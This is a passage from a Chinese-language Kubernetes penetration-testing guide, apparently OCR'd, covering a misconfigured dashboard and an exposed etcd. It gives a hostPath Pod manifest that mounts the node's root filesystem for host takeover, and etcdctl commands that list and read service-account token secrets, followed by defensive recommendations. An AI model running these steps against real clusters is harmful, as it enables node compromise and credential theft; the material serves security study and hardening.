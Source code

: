 1.  执行 kubectl create -f dashboard-admin.yaml

此时用户通过点击 Skip 进入 dashboard 即可拥有管理集群的权限了。

进入到 dashboard 我们可以管理 Pods、CronJobs 等，这里介绍下我们如何通过创建 Pod 控制 node 节点。

我们新建一个以下配置的 Pod，该 pod 主要是将宿主机根目录挂载到容器 tmp 目录下。

apiVersion: v1
kind: Pod
metadata:
  name: alpine
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: \["/bin/sh", "-c", "sleep 10000"\]
    volumeMounts:
    - name: host-root
      mountPath: /tmp
  volumes:
  - name: host-root
    hostPath:
      path: /

之后我们便可以通过该容器的 tmp 目录管理 node 节点的文件。

值得注意的是，为了集群的稳定性和安全性要求，在 Kubernetes 默认设计的情况下 Pod 是不能调度到 master 节点的，但如果用户自行设置关闭了 Master Only 状态，那么我们可以直接在 master 节点新建 Pod 更直接的控制 master node；不过目前各大主流云产商上的 Kubernetes 集群服务，都会默认推荐让 Master 节点由云厂商托管，更加加剧了 Master 节点渗透和控制的难度 。

**防御建议**：

-   禁用enable-skip-login选项
-   避免将cluster-admin角色绑定到dashboard服务账号
-   实施网络策略，限制对dashboard的访问
-   使用身份认证代理或OAuth提供商进行认证
-   考虑使用其他更安全的管理工具，如kubectl或专用管理平台

### 7.5. etcd

etcd 被广泛用于存储分布式系统或机器集群数据，其默认监听了 2379 等端口，如果 2379 端口暴露到公网，可能造成敏感信息泄露，本文我们主要讨论 Kubernetes 由于配置错误导致 etcd 未授权访问的情况。Kubernetes 默认使用了 etcd v3 来存储数据，如果我们能够控制 Kubernetes etcd 服务，也就拥有了整个集群的控制权。

在 Kubernetes 中用户可以通过配置 /etc/kubernetes/manifests/etcd.yaml 更改 etcd pod 相关的配置，倘若管理员通过修改配置将 etcd 监听的 host 修改为 0.0.0.0，则通过 ectd 获取 Kubernetes 的认证鉴权 token 用于控制集群就是自然而然的思路了，方式如下：

首先读取用于访问 apiserver 的 token

# 查找可用的token
etcdctl --endpoints=https://your-etcd-endpoint:2379 --cacert=/path/to/ca.crt --cert=/path/to/cert.crt --key=/path/to/key.key get / --prefix --keys-only | grep /secrets/

# 读取特定token
etcdctl --endpoints=https://your-etcd-endpoint:2379 --cacert=/path/to/ca.crt --cert=/path/to/cert.crt --key=/path/to/key.key get /registry/secrets/kube-system/default-token-abcde
